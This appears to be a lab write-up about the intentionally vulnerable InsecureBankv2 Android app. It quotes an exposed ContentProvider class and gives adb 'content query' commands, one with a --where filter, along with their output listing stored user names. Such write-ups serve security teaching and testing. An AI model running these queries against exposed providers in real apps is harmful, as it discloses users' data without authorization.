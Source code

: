 Vulnerable code:

Hard coded db information and `content://` paths makes disclosing database information very easy.

```java
public class TrackUserContentProvider extends ContentProvider {
    static final Uri CONTENT_URI = Uri.parse(URL);
    static final String CREATE_DB_TABLE = " CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);";
    static final String DATABASE_NAME = "mydb";
    static final int DATABASE_VERSION = 1;
    static final String PROVIDER_NAME = "com.android.insecurebankv2.TrackUserContentProvider";
    static final String TABLE_NAME = "names";
    static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
    static final String name = "name";
    static final int uriCode = 1;
    static final UriMatcher uriMatcher = new UriMatcher(-1);
    private static HashMap<String, String> values;
    private SQLiteDatabase db;

    static {
        uriMatcher.addURI(PROVIDER_NAME, "trackerusers", 1);
        uriMatcher.addURI(PROVIDER_NAME, "trackerusers/*", 1);
    }

```

### Adb PoC:

#### Query all users

`adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`

Result

```
Row: 0 id=1, name=dinesh
Row: 1 id=2, name=dinesh
Row: 2 id=3, name=jack
Row: 3 id=4, name=jack
Row: 4 id=5, name=jack
```

`adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers --projection *:* --where "name=\'jack\'"`

Result

```
Row: 0 id=3, name=jack, id=3, name=jack
Row: 1 id=4, name=jack, id=4, name=jack
Row: 2 id=5, name=jack, id=5, name=jack

```

The content provider does not have db write permission so injecting data isn't allowed. 

